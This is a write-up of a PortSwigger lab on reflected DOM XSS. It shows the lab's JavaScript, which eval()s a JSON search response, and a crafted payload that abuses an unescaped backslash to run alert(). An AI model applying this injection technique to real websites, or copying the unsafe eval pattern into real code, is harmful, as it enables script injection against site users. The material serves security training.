 # Reflected DOM XSS

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected), you'll learn: Reflected DOM XSS! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

This lab demonstrates a reflected DOM vulnerability. Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.

To solve this lab, create an injection that calls the `alert()` function.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-12/images/Pasted%20image%2020221230060413.png)

In here, we can see there is a search box.

Let's search something:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-12/images/Pasted%20image%2020221230060437.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-12/images/Pasted%20image%2020221230060459.png)

As you can see, our input is reflected to the web page.

**View source page:**
```html
<script src='resources/js/searchResults.js'></script>
<script>search('search-results')</script>
<section class="blog-header">
</section>
<section class=search>
    <form action=/ method=GET>
        <input type=text placeholder='Search the blog...' name=search>
        <button type=submit class=button>Search</button>
    </form>
</section>
```

**`/resources/js/searchResults.js`:**
```js
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);
    xhr.send();

    function displaySearchResults(searchResultsObj) {
        var blogHeader = document.getElementsByClassName("blog-header")[0];
        var blogList = document.getElementsByClassName("blog-list")[0];
        var searchTerm = searchResultsObj.searchTerm
        var searchResults = searchResultsObj.results

        var h1 = document.createElement("h1");
        h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
        blogHeader.appendChild(h1);
        var hr = document.createElement("hr");
        blogHeader.appendChild(hr)

        for (var i = 0; i < searchResults.length; ++i)
        {
            var searchResult = searchResults[i];
            if (searchResult.id) {
                var blogLink = document.createElement("a");
                blogLink.setAttribute("href", "/post?postId=" + searchResult.id);

                if (searchResult.headerImage) {
                    var headerImage = document.createElement("img");
                    headerImage.setAttribute("src", "/image/" + searchResult.headerImage);
                    blogLink.appendChild(headerImage);
                }

                blogList.appendChild(blogLink);
            }

            blogList.innerHTML += "<br/>";

            if (searchResult.title) {
                var title = document.createElement("h2");
                title.innerText = searchResult.title;
                blogList.appendChild(title);
            }

            if (searchResult.summary) {
                var summary = document.createElement("p");
                summary.innerText = searchResult.summary;
                blogList.appendChild(summary);
            }

            if (searchResult.id) {
                var viewPostButton = document.createElement("a");
                viewPostButton.setAttribute("class", "button is-small");
                viewPostButton.setAttribute("href", "/post?postId=" + searchResult.id);
                viewPostButton.innerText = "View post";
            }
        }

        var linkback = document.createElement("div");
        linkback.setAttribute("class", "is-linkback");
        var backToBlog = document.createElement("a");
        backToBlog.setAttribute("href", "/");
        backToBlog.innerText = "Back to Blog";
        linkback.appendChild(backToBlog);
        blogList.appendChild(linkback);
    }
}
```

**I also notice that there is a JSON response:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-12/images/Pasted%20image%2020221230063538.png)

**Let's send that the Burp Repeater, and review `searchResults.js`:** 

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-12/images/Pasted%20image%2020221230063625.png)

Although `searchResults.js` might look scary, we can just **look all the sinks (Dangerous function), and trace them down.**

**In line 5, the response is used an `eval()` function, which is a sink:**
```js
eval('var searchResultsObj = ' + this.responseText);
```

Which means we can inject anything we want!

Now, our ultimate goal is to **let the JavaScript `eval()` our `alert()` function.**

**However, the server-side application did escaped our `"`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-12/images/Pasted%20image%2020221230064324.png)

As you can see, the `"` is being escaped.

**Luckly, after poking around, I found that the `\` is not escaped:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-12/images/Pasted%20image%2020221230064451.png)

**Armed with above information, we can craft an XSS payload:**
```
\"+alert(document.domain)}//
```

**Result:**
```
{"results":[],"searchTerm":"\\" alert(document.domain)}//"}
```

In the first `\`, we want to escape the `\` that the server-side application added to `"`, thus it'll close the string (`""`). Hence, it'll become: `eval({"results":[],"searchTerm":"");`.

Then, the `+` is to keep the string format normal. Hence, it'll become: `eval({"results":[],"searchTerm":""+alert(document.domain));`

Finally, we wait the JSON object finish. To do so, we first close the JSON object via `}`. Then, commented out `"}` via `//`.

**Hence, our final payload will be:**
```js
eval({"results":[],"searchTerm":""+alert(document.domain)});
```

Let's use our crafted payload to execute `alert()` function!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-12/images/Pasted%20image%2020221230070306.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-12/images/Pasted%20image%2020221230070318.png)

Nice!

# What we've learned:

1. Reflected DOM XSS